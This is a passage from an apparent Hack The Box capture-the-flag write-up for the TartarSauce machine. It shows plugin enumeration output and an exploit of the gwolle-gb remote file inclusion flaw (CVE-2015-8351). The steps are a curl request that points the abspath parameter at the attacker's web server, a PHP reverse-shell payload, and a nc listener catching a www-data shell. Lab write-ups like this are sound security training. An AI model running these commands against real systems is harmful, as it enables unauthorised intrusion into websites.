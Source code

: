 ```bash
[+] Name: gwolle-gb - v2.3.10
 |  Last updated: 2018-05-12T10:06:00.000Z
 |  Location: http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/
 |  Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
[!] The version is out of date, the latest version is 2.5.2

[+] Enumerating installed themes (only ones marked as popular) ...
```

There are 3 plugins found.



# Shell as `www-data`

### CVE-2015-8351 (RFI via gwolle-gb)

Among the plugins, `gwolle-gb` has a public Remote File Inclusion exploit :
https://www.exploit-db.com/exploits/38861

I opened a webserver using python on port 80.

```bash
┌──(kali㉿kali)-[~/htb/tar/php]
└─$ sudo python -m http.server 80                        
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Then, I fetched the following URL to include the kali server.

```bash
┌──(kali㉿kali)-[~]
└─$ curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.3/
```

Then the webserver received a request to `/wp-load.php` page.

```bash
┌──(kali㉿kali)-[~/htb/tar/php]
└─$ sudo python -m http.server 80                        
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.88 - - [04/Mar/2025 01:41:45] "GET /wp-load.php HTTP/1.0" 200 -
```

I did this again after creating `wp-load.php` file on the webroot directory.
I used `php-reverse-shell.php` file as its template and specified IP / ports.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.88] 59180
Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 athlon i686 GNU/Linux
 03:47:48 up 8 min,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
